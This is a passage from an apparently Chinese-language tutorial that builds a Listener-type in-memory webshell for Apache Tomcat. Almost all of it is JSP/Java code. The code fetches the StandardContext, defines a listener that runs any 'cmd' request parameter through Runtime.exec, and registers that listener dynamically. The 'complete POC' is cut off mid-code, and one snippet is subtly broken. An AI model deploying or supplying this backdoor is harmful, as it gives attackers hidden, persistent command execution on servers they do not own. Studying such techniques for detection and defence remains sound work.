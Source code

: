 ```java
StandardContext standardContext = (StandardContext) webappClassLoaderBase.getResources().getContext();
%>
```
接着我们编写一个恶意的`Listener`
```java
<%!
  public class MaListener implements ServletContextListener {

    @Override
    public void contextInitialized(ServletContextEvent sre) {
      HttpServletRequest request = (HttpServletRequest) sre.getServletRequest();
      String cmd = request.getParameter("cmd");
      if (cmd != null) {
        try {
          Runtime.getRuntime().exec(cmd);
        } catch (IOException e) {
          e.printStackTrace();
        } catch (NullPointerException n) {
          n.printStackTrace();
        }
      }
    }

    @Override
    public void contextDestroyed(ServletContextEvent sce) {

    }
  }
%>
```
最后添加监听器
```java
<%
  MaListener maListener = new MaListener();
  standardContext.addApplicationEventListener(maListener);
%>
```
### 4.1.3、完整POC
至此我们可以总结出`Listener`型内存马的实现步骤

1. 获取`StandardContext`上下文
2. 实现一个恶意`Listener`
3. 通过`StandardContext#addApplicationEventListener`方法添加恶意`Listener`
```java
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="org.apache.catalina.connector.Request" %>
 
<%!
    public class Shell_Listener implements ServletRequestListener {
 
        public void requestInitialized(ServletRequestEvent sre) {
            HttpServletRequest request = (HttpServletRequest) sre.getServletRequest();
           String cmd = request.getParameter("cmd");
           if (cmd != null) {
               try {
                   Runtime.getRuntime().exec(cmd);
               } catch (IOException e) {
                   e.printStackTrace();
               } catch (NullPointerException n) {
                   n.printStackTrace();
```